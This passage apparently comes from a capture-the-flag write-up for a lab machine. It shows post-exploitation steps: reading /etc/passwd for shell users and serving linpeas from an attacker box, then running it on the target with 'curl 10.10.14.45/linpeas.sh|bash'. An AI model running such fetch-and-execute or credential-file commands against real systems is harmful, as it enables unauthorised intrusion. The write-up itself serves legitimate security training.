 
## Investigate and get windows event log file

get users

```bash
(remote) www-data@investigation:/$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

Run linpeas

```bash
┌──(root㉿kali)-[/opt/tools/privesc]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.197 - - [22/Apr/2023 06:00:06] "GET /linpeas.sh HTTP/1.1" 200 -
---

(remote) www-data@investigation:/$ curl 10.10.14.45/linpeas.sh|bash
```

![](/assets/obsidian/85b25d4e0e06d3f6da4bbd2bb419780e.png)

Nope

![](/assets/obsidian/14c66343a84988050cbd87b20e65699a.png)

Interesting task

![](/assets/obsidian/078bf9030a6a31a6fd5ee7300a82c157.png)
